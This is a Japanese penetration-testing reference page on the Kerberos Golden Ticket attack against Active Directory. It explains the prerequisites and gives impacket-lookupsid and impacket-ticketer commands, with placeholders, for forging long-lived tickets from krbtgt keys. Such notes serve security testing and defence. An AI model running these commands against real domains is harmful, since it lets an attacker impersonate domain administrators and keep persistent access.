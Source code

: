 # Golden Tickets攻撃

`Golden Ticket` とは、Active Directory認証において攻撃者が作成したTGT(Ticket Granting Ticket)を指す。攻撃者は有効期限が長いTGTを作成し正規のドメイン管理者に長期的になりすますことを目的としている。Golden Ticketを悪用する攻撃は Pass-the-Ticket攻撃の一種。

## 攻撃に必要なもの

ゴールデンチケットを作成するために、テスターは`krbtgt` のRC4キー（NTハッシュ）またはAESキー（128ビットまたは256ビット）を見つける必要がある。ほとんどの場合、これはDCSync攻撃を通してドメイン管理者権限でのみ達成可能。このため、ゴールデンチケットは横方向の移動のみを可能にし、特権の昇格はできない。

- krbtgtのRC4 key(NTLM hash) or AES key

- DOMAINのSID

  ```
  impacket-lookupsid -hashes 'LMhash:NThash' '<DOMAIN>/<USERNAME>:<PASSWORD>@<DC_IP>'
  ```

## チケットの取得

### Linux

with an NT hash

```
impacket-ticketer -nthash <Krbtgt_NTLM> -domain_sid <DOMAIN_SID> -domain <DOMAIN> stegosaurus
```

with an AES (128 or 256 bits) key

```
# AES 128/256bits key
impacket-ticketer -aesKey <Krbtgt_Aeskey> -domain_sid <DOMAIN_SID> -domain <DOMAIN> stegosaurus
```

カスタムユーザー/グループIDでゴールデンチケットRC4キー(NTLMハッシュ)を作成する

```
impacket-ticketer -nthash <Krbtgt_NTLM> -domain_sid <DOMAIN_SID> -domain <DOMAIN> -user-id <USER_RID> -groups "<Groupid1>,<Groupid2>,..." stegosaurus
```

